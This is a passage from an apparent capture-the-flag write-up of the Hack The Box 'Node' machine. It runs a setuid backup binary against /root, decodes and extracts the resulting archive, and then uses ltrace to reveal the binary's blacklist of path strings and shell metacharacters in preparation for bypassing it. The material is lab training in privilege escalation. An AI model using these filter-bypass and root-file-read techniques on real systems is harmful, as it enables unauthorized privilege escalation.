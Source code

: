 ```text
   creating: tmp/.ICE-unix/
   creating: tmp/.font-unix/
  inflating: tmp/pspy64
```

When decompressing the file, we use the same password we cracked earlier.

Alright, let’s pass the root.txt file path as an argument to the backup program.

```text
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /root > roottom@node:/tmp$ cat root | base64 --decode > root-decodedroot@kali:~/Desktop/htb/node# file root-decoded
root-decoded: Zip archive data, at least v?[0x333] to extractroot@kali:~/Desktop/htb/node# 7z x root-decoded
```

**Note:** When I used unzip on the root zip file, I kept getting a “need PK compat. v5.1 \(can do v4.6\)” message. So I had to transfer the file to my attack machine and use 7z instead.

Let’s output the root.txt file.

![](https://miro.medium.com/max/620/1*M0Y4-VaSgll3oIURyDKcRg.png)

We get the troll face.

Something in the backup file is intentionally preventing us from getting the root flag. Let’s run the ltrace program to see what system commands are getting called when we run the backup program.

```text
ltrace /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /../../etc > test
```

We get back the following result.

```text
strstr("/tmp", "..")                             = nil
strstr("/tmp", "/root")                          = nil
strchr("/tmp", ';')                              = nil
strchr("/tmp", '&')                              = nil
strchr("/tmp", '`')                              = nil
strchr("/tmp", '$')                              = nil
strchr("/tmp", '|')                              = nil
strstr("/tmp", "//")                             = nil
strcmp("/tmp", "/")                              = 1
strstr("/tmp", "/etc")                           = nil
strcpy(0xff98a1ab, "/tmp")                       = 0xff98a1ab
```

Let’s look up what the functions do.

* **strstr:** returns pointer to first occurrence of str2 in str1
* **strchr:** returns pointer to first occurrence of char in str1
* **strcmp: r**eturns 0 if str1 is same as str2

As can be seen, the program is filtering the directory path string. If we include any of the strings enclosed in the strchr or strstr function as a directory path, we end up with a troll face. Similarly, if the directory path is a single “/”, we also get a troll face. So we’re allowed to use a backslash as long as it’s included as a string with other characters.
